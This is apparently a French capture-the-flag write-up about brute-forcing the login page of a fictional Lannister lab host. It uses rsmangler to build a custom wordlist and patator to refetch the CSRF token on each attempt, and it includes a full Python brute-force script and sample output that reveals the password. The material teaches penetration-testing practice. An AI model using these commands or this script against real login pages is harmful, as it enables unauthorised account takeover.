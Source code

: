 ```yaml
---
title: 5 - Brute Force sur la page de login
next: "/write-ups/wu6"
prev: "/write-ups/wu4"
---
```



# 🏰 Brute Force sur la page de login  - Castral-Roc

## 🎯 Objectif
Jon doit crocheter la serrure pour rentrer au conseil des lannister ! Il doit **brute-forcer la page de login** sur le sous-domaine **lannister.castral-roc.lannisport.south** pour découvrir **le mot de passe** de James Lannister.

**Flag attendu :** <ILoveCersei>

---

## ⚙️ Environnement
- **Cible :** lannister.castral-roc.lannisport.south
- **Outil utilisé :** rsmangler, patator
- **Wordlist :** custom wordlist créée par le pentester

---


## 🚀 Étape 1 : se rendre sur la page high_login et analyser le comportement du formulaire de connexion


Page de login du Conseil des Lannister :  http://lannister.castral-roc.lannisport.south/high_login.php 

## 🔍 Étape 2 :  Inspecter la page 

Inspecter la page pour trouver les champs du formulaire de connexion.
On voit que le formulaire utilise un token CSRF pour se protéger des attaques CSRF.

> 📝 **CSRF** : Cross-Site Request Forgery est une attaque qui force un utilisateur à exécuter des actions non désirées sur un site Web sur lequel il est authentifié.

Il faut donc trouver un moyen de contourner cette protection.

De plus on remarque que le formulaire de connexion contient un champ **username** et un champ **password**, la methode utilisée est **POST**.

```html
<form method="POST">
        <input type="hidden" name="csrf_token" value="zdagte....">
        <label for="username">Nom d'utilisateur :</label><br>
        <input type="text" id="username" name="username" required><br>
        <label for="password">Mot de passe :</label><br>
        <input type="password" id="password" name="password" required><br>
        <input type="submit" value="Connexion">
</form>
```

## 🚀 Étape 3 : Créer une wordlist personnalisée

1. On remarque sur la page plusieurs **indices** :

```bash	
- James
- Lannister
- Cersei
- Love
- I
```

On peut donc créer une **wordlist personnalisée**  avec ces mots.

Les ajouter a un fichier.

```bash	
nano custom_wordlist.txt
```

Coller les mots dans le fichier, sauvegarder et quiter.

```bash	
James
Lannister
Cersei
Love
I
```


2. Créer un fichier sortie_wordlist.txt avec un multitude de variations possible de ces mots : 

```bash	
rsmangler --file custom_wordlist.txt --output sortie_wordlist.txt
```

Il va donc par exemple y avoir des variations de la forme :

```bash
JamesLaNNisterCerseiLoveI
IJamesLannisterCerseiLove
CerseiLoveIJamesLannister
...
```



## 🔍 Étape 4 : Brute-force du formulaire de connexion

Comme le formulaire utilise un token CSRF, on va utiliser l'outil **patator** pour effectuer un bruteforce sur le formulaire de connexion.
En effet, patator permet de contourner la **protection CSRF** en recuperant le token avec chaque requête.
De ce fait, lorsque l'on envoie une requête, le token est récupéré et utilisé pour la requête suivante.

```bash
patator http_fuzz url="http://lannister.castral-roc.lannisport.south/high_login.php" method=POST body="username=james.lannis&password=FILE0&csrf_token=RESPONSE1" accept_cookie=1 0=sortie_wordlist.txt before_urls="http://lannister.castral-roc.lannisport.south/high_login.php" before_egrep='RESPONSE1:csrf_token" value="([a-f0-9]{32})"' resolve="lannister.castral-roc.lannisport.south:10.10.10.1"
```

Décomposons la commande :

- **http_fuzz** : module de patator pour effectuer des attaques par bruteforce sur des formulaires web
- **url** : l'url de la page de login
- **method** : la méthode HTTP utilisée pour envoyer les requêtes
- **body** : les paramètres du formulaire de connexion
- **accept_cookie** : accepter les cookies
- **0** : le fichier contenant les mots de passe à tester
- **before_urls** : l'url de la page de login
- **before_egrep** : expression régulière pour récupérer le token CSRF, le token peut avoir des valeurs de a à f et de 0 à 9 car il s'agit de valeurs hexadécimale
- **resolve** : résoudre le nom de domaine en adresse IP

Cette commande va tester tous les mots de passe de la wordlist sur le formulaire de connexion.

On aura donc cette sortie : 

```bash
18:23:37 patator    INFO - Starting Patator 0.9 (https://github.com/lanjelot/patator) with python-3.11.5 at 2025-02-11 18:23 CET
18:23:37 patator    INFO -                                                                              
18:23:37 patator    INFO - code size:clen       time | candidate                          |   num | mesg
18:23:37 patator    INFO - -----------------------------------------------------------------------------

18:23:38 patator    INFO - 200  1050:-1        0.032 | LoveICersei                        |    74 | HTTP/1.1 200 OK
18:23:38 patator    INFO - 200  1054:-1        0.065 | IJamesLannister                    |    75 | HTTP/1.1 200 OK
18:23:38 patator    INFO - 302  429:-1         0.055 | ILoveCersei                        |    86 | HTTP/1.1 302 Found
```

On voit que le mot de passe **ILoveCersei** a été trouvé, car on a reçu une réponse **HTTP 302 Found**.

On peut également utiliser un script python afin de trouver le mot de passe :

```python {filename="bruteforce.py"} 
import requests
from bs4 import BeautifulSoup

# Configuration
URL = "http://lannister.castral-roc.lannisport.south/high_login.php"
USERNAME = "james.lannis"
WORDLIST = "sortie_wordlist.txt"

def get_csrf_token(session):
    """Récupère dynamiquement le token CSRF depuis la page de login"""
    response = session.get(URL)
    soup = BeautifulSoup(response.text, 'html.parser')
    token_input = soup.find("input", {"name": "csrf_token"})
    return token_input["value"] if token_input else None

def brute_force():
    session = requests.Session()

    with open(WORDLIST, "r", encoding="utf-8", errors="ignore") as file:
        for password in file:
            password = password.strip()
            
            # 🔹 Récupérer dynamiquement le token CSRF AVANT chaque requête
            csrf_token = get_csrf_token(session)
            if not csrf_token:
                print("[!] Impossible d'obtenir le token CSRF !")
                break

            # 🔹 Envoyer la requête POST avec le token valide
            headers = {"User-Agent": "Mozilla/5.0"}
            data = {
                "csrf_token": csrf_token,
                "username": "james.lannis",
                "password": password
            }
            response = session.post(URL, data=data, headers=headers)

            # 🔹 Vérifier si l'authentification est réussie
            if "Identifiants incorrects" not in response.text:
                print(f"[+] Mot de passe trouvé : {password}")
                return
            
            print(f"[-] Échec avec : {password}")

    print("[X] Aucun mot de passe valide trouvé.")

if __name__ == "__main__":
    brute_force()
```

On l'appel avec la commande suivante : 

```bash
python3 bruteforce.py
```

On obtient alors le resultat : 

```bash
[-] Échec avec : 123456
[-] Échec avec : 12345
[-] Échec avec : 123456789
[-] Échec avec : ILoveCersai
[+] Mot de passe trouvé : ILoveCersei
```


## 🎯 Étape 5 : Validation du Flag


